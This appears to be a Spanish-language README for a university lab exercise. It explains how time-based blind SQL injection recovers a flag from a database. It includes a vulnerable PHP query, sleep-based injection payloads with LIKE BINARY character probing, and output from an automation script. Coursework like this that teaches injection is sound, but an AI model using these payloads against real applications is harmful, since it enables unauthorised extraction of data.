 # blind-sql
Script de Python para lanzar una inyección ciega de SQL (Auditoría).

## Introducción
En la práctica primera de la asignatura se nos propone recuperar las flags de una base de datos. Sin embargo, solo tenemos acceso a una pantalla que indica si la query terminó con éxito o no.

Esto es lo que definimos como una blind-SQL, donde sabemos que podemos atacar la base de datos, pero no podemos recuperar datos de forma directa, por lo que solo nos queda tantearlos.

## Vulnerabilidad
Sabemos que la sentenica de SQL vulnerable es algo similar a la siguiente (PHP):
```php
$query = "SELECT flag from x WHERE y = $input";
```
Esto permite que podamos encadenar comandos de SQL después. Si lo encadenamos a una condición que dispare una espera, veremos que las respuestas del servidor tardan más tiempo dependiendo 
del éxito de la consulta. Podemos ver algunos ejemplos en este [repositorio de payloads](https://github.com/payloadbox/sql-injection-payload-list).

La siguiente payload es un ejemplo en el repositorio de [Blisqy](https://github.com/JohnTroony/Blisqy), y vemos que si la consulta resuelve en true, podemos modular el tiempo 
de respuesta de la petición.
```python
sqli = "' or if((*sql*),sleep(*time*),0) and '1'='1"
```
Si encadenamos esto a la sentencia `LIKE` de [SQL](https://stackoverflow.com/questions/14908142/sql-like-search-string-starts-with), podemos determinar con qué caracter empieza una flag.
El siguiente ejemplo recupera de la base de datos todas las entradas que empiecen por v:
```sql
SELECT * from flag WHERE (flag LIKE 'v%');
```

Por último, debemos añadir la palabra clave `BINARY` como [truco](https://www.scaler.com/topics/is-sql-case-sensitive/) para distinguir entre mayúsuclas y minúsculas (case-sensitive), 
ya que el campo por defecto NO lo es (varchar).

```sql
SELECT * from flag WHERE (flag LIKE BINARY 'v%');
```

## Payload
Si juntamos todos los ingredientes que acabamos de mencionar y nos aprovechamos de una flag conocida dentro de la base de datos, podemos terminar de probar la payload.

```sql
1 or if((flag LIKE BINARY 'vamosNano%'),sleep(5),0);
```
En este caso, añado el `1` al inicio para que cuadre con la sentencia original (`where id = 1`).

## Automatización
El siguiente paso es automatizar el proceso para que la búsqueda ciega vaya probando con todos los caracteres ASCII.

El actual estado del script es muy básico, ya que solo comprueba el primer camino que encuentra. Habría que sofisticarlo para que lleve un registro de los flags localizados y 
siga explorando por distintas ramas.

## Resultado
El resultado del script es un éxito, encuentra la flag al completo, y acierta con las mayúsculas en poco tiempo. El mayor de los retrasos es fruto del propio `sleep` de la inyección.
```bash
➜  flag3 py blind-injection.py
[0] The flag is: S
[1] The flag is: SW
[2] The flag is: SW5
[3] The flag is: SW5G
[4] The flag is: SW5GZ
[5] The flag is: SW5GZX
[6] The flag is: SW5GZXJ
[7] The flag is: SW5GZXJu
[8] The flag is: SW5GZXJuY
[9] The flag is: SW5GZXJuYW
[10] The flag is: SW5GZXJuYW5
[11] The flag is: SW5GZXJuYW5k
[12] The flag is: SW5GZXJuYW5kb
[13] The flag is: SW5GZXJuYW5kb1
[14] The flag is: SW5GZXJuYW5kb1d
[15] The flag is: SW5GZXJuYW5kb1dl
[16] The flag is: SW5GZXJuYW5kb1dlV
[17] The flag is: SW5GZXJuYW5kb1dlVH
[18] The flag is: SW5GZXJuYW5kb1dlVHJ
[19] The flag is: SW5GZXJuYW5kb1dlVHJ1
[20] The flag is: SW5GZXJuYW5kb1dlVHJ1c
[21] The flag is: SW5GZXJuYW5kb1dlVHJ1c3
[22] The flag is: SW5GZXJuYW5kb1dlVHJ1c3Q
[23] The flag is: SW5GZXJuYW5kb1dlVHJ1c3Q=
```

## Herramientas
* Burp Suite (community) - captura y análisis de paquetes
* Postman, cURL - pruebas de payload
* Python - script
